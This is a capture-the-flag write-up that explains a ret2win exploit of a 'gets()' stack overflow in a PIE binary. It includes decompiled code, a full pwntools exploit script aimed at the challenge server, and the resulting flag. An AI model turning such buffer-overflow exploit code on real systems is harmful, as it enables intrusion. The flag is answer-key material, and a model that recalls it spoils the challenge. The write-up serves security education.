 # Foobar CTF - I hate Garbages

The binary is compiled with ``partial relro``, ``NX``, and ``PIE``.

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

Further, the binary leaks the address of the ``win`` function and calls ``gets()``, which enables a stack-based buffer overflow.

```
00001340      printf(&data_2028, win);
00001351      gets(&var_48);
```

However, before returning from the ``main`` function, the program calls ``play_with_buf`` that manipulates the user input by ``xor``ing the buffer with ``0x20202020`` four bytes at a time.

0000128f  void play_with_buf(int32_t* arg1, int64_t arg2)

```
0000128f  {
0000129b      int32_t var_14 = arg2;
000012a2      if (var_14 <= 0x4f)
0000129e      {
000012c3          *(int32_t*)((char*)arg1 + arg2) = (*(int32_t*)((char*)arg1 + arg2) ^ 0x20202020);
000012d7          play_with_buf(arg1, ((uint64_t)(var_14 + 4)));
000012cb      }
0000129e  }
```

Further, there is a ``check`` function. Failing to pass the ``check`` means the program will ``exit`` instead of ``return``. We need to pass this check so we can ``return`` to the stack and trigger our Ret2Win.

```
00001375      if (check(&var_48) == 0)
00001373      {
00001397          puts("ooooopsss");
000013a1          exit(0);
000013a1          /* no return */
000013a1      }
00001381      puts("good try :)");
000013a7      return 0;
```

Putting our exploit together, we pass the check by setting the first byte of our input to chr(127), then 71 more bytes to overflow the buffer. Further, we will place a ``ret`` in from our our ``win`` to satisfy the ``movaps`` issue that occurs when the stack isn't 16-byte aligned and calls ``system``. 

```python
from pwn import *

binary = args.BIN
context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('chall.foobar.nitdgplug.org',30021)
    else:
        return process(e.path,level='error')

def repair(addr):
  xor_func = lambda x: x ^ 0x20
  return bytearray(map(xor_func, p64(addr)))

def ret2win():
  p = start()
  win=int(p.recvline(keepends=False),16)
  log.info('Win Leaked: 0x%x' %win)
  e.address=win-e.sym.win
  ret = e.address+0x128e

  chain = chr(127).encode()
  chain += b'A'*71
  chain += repair(ret)
  chain += p64(e.sym['win'])

  log.info('Throwing XOR(Ret)+Win')
  p.sendline(chain)
  p.interactive()

ret2win()
```

Throwing our exploit at the server, we get the flag ``GLUG{4lways_63_$p3cific}``.

```
└─# python3 pwn-ihg.py BIN=./test REMOTE
[*] '/root/workspace/foobar/i-hate-garbages/test'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chall.foobar.nitdgplug.org on port 30021: Done
[*] Win Leaked: 0x55de976931b9
[*] Throwing XOR(Ret)+Win
[*] Switching to interactive mode
good try :)
GLUG{4lways_63_$p3cific}
```